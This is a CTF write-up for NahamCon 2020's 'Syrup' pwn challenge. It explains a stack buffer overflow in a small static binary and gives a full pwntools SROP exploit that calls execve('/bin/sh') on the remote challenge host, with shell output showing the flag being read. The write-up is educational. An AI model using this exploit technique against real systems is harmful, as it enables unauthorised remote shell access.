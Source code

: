 # NahamCon CTF 2020

## Syrup

> 100
>
> Can you pwn me? 
>
> Connect here:</br>
> `nc jh2i.com 50036`</br>
>
> [`syrup`](syrup)

Tags: _pwn_ _x86-64_ _srop_ _bof_ _syscall_ _remote-shell_


## Summary

The title _Syrup_ is a pretty strong hint that this is an SROP challenge (that completely escaped me).


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

No mitigations in place.  However, with no libc and a small statically linked assembly binary, there's not a lot to work with ROP-wise.

    
### <strike>Decompile</strike> Disassemble with Ghidra 

There are four functions of interest:

```nasm
                     entry
00401082 55              PUSH       RBP
00401083 48 89 e5        MOV        RBP,RSP
00401086 b8 01 00        MOV        EAX,0x1
         00 00
0040108b bf 01 00        MOV        EDI,0x1
         00 00
00401090 48 be 00        MOV        RSI=>msg,msg = "Can you pwn me?\n"
         20 40 00
         00 00 00 00
0040109a ba 11 00        MOV        EDX,0x11
         00 00
0040109f 0f 05           SYSCALL
004010a1 e8 9c ff        CALL       fn1
         ff ff
004010a6 e9 68 ff        JMP        nope
         ff ff
```

`entry` just prints `Can you pwn me?` using the `write` system call, then calls `fn1` before jumping to `nope`.

```
                     nope
00401013 b8 01 00        MOV        EAX,0x1
         00 00
00401018 bf 01 00        MOV        EDI,0x1
         00 00
0040101d 48 be 11        MOV        RSI,fail = "Nope.\n"
         20 40 00
         00 00 00 00
00401027 ba 07 00        MOV        EDX,0x7
         00 00
0040102c 0f 05           SYSCALL
0040102e b8 3c 00        MOV        EAX,0x3c
         00 00
00401033 bf 00 00        MOV        EDI,0x0
         00 00
00401038 0f 05           SYSCALL
0040103a 2f              ??         2Fh    /
0040103b 62              ??         62h    b
0040103c 69              ??         69h    i
0040103d 6e              ??         6Eh    n
0040103e 2f              ??         2Fh    /
0040103f 73              ??         73h    s
00401040 68              ??         68h    h
00401041 00              ??         00h
```

`nope` just emits `Nope` and then exits using the `exit` syscall.

However, there's the string `/bin/sh\x00`.  Probably something we'll need.

```
                     fn1
00401042 55              PUSH       RBP
00401043 48 89 e5        MOV        RBP,RSP
00401046 b8 ad de        MOV        EAX,0xdead
         00 00
0040104b 48 35 ef        XOR        RAX,0xbeef
         be 00 00
00401051 50              PUSH       RAX
00401052 48 83 ed 08     SUB        RBP,0x8
00401056 48 81 ed        SUB        RBP,0x400
         00 04 00 00
0040105d b8 00 00        MOV        EAX,0x0
         00 00
00401062 bf 00 00        MOV        EDI,0x0
         00 00
00401067 48 89 ee        MOV        RSI,RBP
0040106a ba 00 08        MOV        EDX,0x800
         00 00
0040106f 0f 05           SYSCALL
00401071 58              POP        RAX
00401072 48 35 ef        XOR        RAX,0xbeef
         be 00 00
00401078 48 3d ad        CMP        RAX,0xdead
         de 00 00
0040107e 75 93           JNZ        nope
00401080 5d              POP        RBP
00401081 c3              RET
```

`fn1` puts `0xdead ^ 0xbeef` on the stack, allocates `0x400` bytes, then calls `read` to _read_ in up to `0x800` bytes from `stdin`.  This is the vulnerability.  However there's the "canary" check, and if that fails, then `nope`.  Otherwise it returns to `entry` and jumps to `nope`.

Clearly we have to take control of RIP with this buffer overflow.

```
                     fn2
00401000 55              PUSH       RBP
00401001 48 89 e5        MOV        RBP,RSP
00401004 58              POP        RAX
00401005 48 bf 11        MOV        RDI,fail = "Nope.\n"
         20 40 00
         00 00 00 00
0040100f 0f 05           SYSCALL
00401011 5d              POP        RBP
00401012 c3              RET
```

`fn2` has no purpose other than to help us out.  It'll pop RAX and `syscall`.  With ROP, setting RAX and _returning_ to `POP RAX` to then get any syscall we want is easy enough, however, the challenge is setting all the other registers.

[Sigreturn Oriented Programming (SROP)](https://docs.pwntools.com/en/stable/rop/srop.html) solves that problem.

> _**sigreturn**() exists only to allow the implementation of signal handlers.  It should **never** be called directly. -- man 2 sigreturn_

lol


## Exploit

```python
#!/usr/bin/python3

from pwn import *

binary = ELF('./syrup')
context.update(arch='amd64',os='linux')

frame = SigreturnFrame()
frame.rax = constants.SYS_execve
frame.rdi = next(binary.search(b'/bin/sh'))
frame.rsi = 0
frame.rdx = 0
frame.rip = next(binary.search(asm('syscall')))

payload  = 0x400 * b'A'
payload += p64(0xdead ^ 0xbeef)
```

Setup the stack frame to call `execve("/bin/sh",null,null)`.  The `0x400` + the "canary" payload gets to the saved base pointer.

There are at least two options (_clever_ and _not to clever_) to call `sigreturn`.

Clever:

```python
payload += p64(constants.SYS_rt_sigreturn)
payload += p64(binary.symbols['fn2'])
```

The clever way puts the `rt_sigreturn` syscall number in RBP.  Then overwrites the return address with the address of `fn2`.  `fn1` before `ret` will pop RBP, then `fn2` will push RDB, then pop RAX before the `syscall`.

> They really thought of everything. 

Not so clever:

```python
payload += p64(0x0)
payload += p64(0x00401004) # pop rax
payload += p64(constants.SYS_rt_sigreturn)
```

The other option is to just write anything to the saved base pointer in the stack, and then have the return address be the address of the `POP RAX` from `fn2`, then the syscall number.

In either case the generated stack frame needs to follow the overwritten return address:

```python
payload += bytes(frame)
```

Finally:

```python
#p = process(binary.path)
p = remote('jh2i.com', 50036)

p.recvuntil('Can you pwn me?')
p.sendline(payload)
p.interactive()
```

Just send it and get a shell.

Output:

```bash
# ./exploit.py
[*] '/pwd/datajerk/nahamconctf2020/syrup/syrup'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to jh2i.com on port 50036: Done
[*] Switching to interactive mode

\x00$ id
uid=1000(challenge) gid=1000(challenge) groups=1000(challenge)
$ ls
flag.txt
syrup
$ cat flag.txt
flag{Sr0ppin_t0_v1ct0Ry}
```

